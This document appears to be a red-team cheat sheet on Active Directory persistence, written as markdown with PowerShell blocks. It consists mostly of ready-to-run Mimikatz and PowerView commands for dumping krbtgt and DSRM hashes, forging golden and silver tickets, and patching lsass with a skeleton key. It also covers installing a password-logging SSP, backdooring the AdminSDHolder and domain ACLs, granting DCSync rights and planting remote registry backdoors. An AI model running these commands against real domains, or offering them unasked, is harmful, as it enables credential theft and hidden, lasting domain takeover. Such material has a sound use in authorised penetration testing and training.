 ## AD Persistence

- [Get krbtgt Hash](#get-krbtgt-hash)
- [Golden Ticket](#golden-ticket)
- [Silver Ticket](#silver-ticket)
- [Skeleton Key](#skeleton-key)
- [DSRM (Directory Services Restore Mode)](#dsrm--directory-services-restore-mode-)
- [SSP (Security Support Provider)](#ssp--security-support-provider-)
- [ACL Persistence](#acl-persistence)
    + [SDPROP and AdminSDHolder](#sdprop-and-adminsdholder)
    + [Domain Root Object ACL](#domain-root-object-acl)
    + [DCSync](#dcsync)
    + [WMI Security Descriptors](#wmi-security-descriptors)
    + [Remote Registry](#remote-registry)
- [MORE](#more)

### Get krbtgt Hash
---
```powershell
# On DC as a DA
C:> Invoke-Mimikatz -Command '"lsadump:lsa /patch"'

# DC-Sync attack. DA rights required
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user_<domain>\krbtgt"'
```
### Golden Ticket
---
 Need to find the krbtgt's RC4 or AES key. This can be achieved with DA privileges through a DCSync attack.
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /rc4:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
                                         
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /aes256:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'                                         
```
### Silver Ticket
---
In order to craft a silver ticket, need to find the target service account's RC4 key or AES key. This can be done by capture an NTLM response (preferably NTLMv1) and cracking it, by dumping LSA secrets, doing a dcsync, etc...
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
```
### Skeleton Key
---
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
---
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
- Following steps need to be done in a DC session with DA rights
```powershell
# 1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

# (OPTIONAL) 2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

# 3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
# 4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# 5. Pass the hash. FQDS domain and NTLM Hash obtained for Administrator in step 1.
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain-dc_host> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
---
We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### ACL Persistence
---
#### SDPROP and AdminSDHolder

  AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.
Once you have agained Domain Admin privileges, AdminSDHolder container can be abused by backdooring it by giving your user GenericAll privileges, which effectively makes that user a Domain Admin.
```powershell
#`sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
# With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
# Load Module
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
#### Domain Root Object ACL
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
#### DCSync
```powershell
# Check if a user has DCSync rights. Gives nothing if no rights 
C:> Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student76 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### WMI Security Descriptors

```powershell
# To be able to run WMI commands
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemoteWMI -SamAccountName <username> -ComputerName <hostname_full_FQDN> -namespace 'root\cimv2' -Verbose
```
```powershell
# Give permissions to be able to PS Remoting
# UNSTABLE SINCE SOME M$ PATCHES
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemotePSRemoting –SamAccountName <username> -ComputerName <hostname_full_FQDN> -Verbose

# Now can run WMI on host
C:> gwmi -class win32_operatingsystem -ComputerName <host>
```
#### Remote Registry
```powershell
# Using RACE, with admin privs on remote machine
C:> Add-RemoteRegBackdoor -ComputerName <hostname> -Trustee <username> -Verbose

# From a shell as <username>, not DA rights
# As <username> from before, retrieve machine account hash:
C:> Get-RemoteMachineAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve local account hash:
C:> Get-RemoteLocalAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve domain cached credentials:
C:> Get-RemoteCachedCredential -ComputerName <hostname> -Verbose

# With this machine account hash can create Silver Tickets
C:> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_fqdn> /sid:<domain_sid> /target:<hostname_fqdn> /service:HOST /rc4:<host_hash> /user:Administrator /ptt"'
```
### MORE





